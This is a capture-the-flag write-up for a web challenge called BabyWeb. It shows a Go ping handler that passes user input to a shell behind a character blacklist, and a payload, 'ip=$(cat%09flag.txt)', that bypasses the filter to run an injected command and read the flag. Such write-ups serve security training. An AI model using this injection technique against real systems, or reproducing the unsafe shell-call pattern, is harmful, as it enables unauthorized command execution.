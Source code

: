 # Web - BabyWeb
- Solved by: @BaeSenseii
- Flag: STANDCON{1nj3ct10n_@+_uR_c0MM@Nd}

## Writeup
Loading the website onto the web browser results in the following app page, which is just some ping tool on the system:

![](./images/baby_web_0_0.png)

Source code for the web application was provided, and the following snippet shows the code responsible for the ping function:

```bash
http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request) {
		ip := r.FormValue("ip")

		if len(ip) > 15 {
			fmt.Fprint(w, "IP address has exceeded the maximum length")
			return
		}

		if strings.ContainsAny(ip, "!\"#%&'+,-/:;<=>?@[\\]^_`|~ ") {
			fmt.Fprint(w, "IP address contains bad characters")
			return
		}

		var cmd *exec.Cmd
		if runtime.GOOS == "windows" {
			cmd = exec.Command("cmd", "/c", "ping "+ip)
		} else {
			cmd = exec.Command("sh", "-c", "ping -c 4 "+ip)
		}
		out, err := cmd.CombinedOutput()
		if err != nil {
			fmt.Fprintf(w, "An error has occurred: %s\n", err.Error())
			w.Write(out)
			return
		}
		fmt.Fprintf(w, htmlBody, out)
	})

```
Looking at the source code, it seems to LOOK like a typical Command Injection vulnerability. However, based on the character whitelist for the ping command, it seems that we can only use the following symbols:
- $
- ()
- %

After doing some random trial and error on the source code, we could trick the machine into running certain Linux commands such as 'hostname' using the 'ip' HTTP variable using the '$()' syntax:

![](./images/baby_web_0_1.png)
![](./images/baby_web_0_2.png)

From there, reading the flag.txt file was easy by sending the following HTTP parameter value (%09 or 0x09 is an ASCII representation of the 'Tab' space indentation):

```ip=$(cat%09flag.txt)```

![](./images/baby_web_1)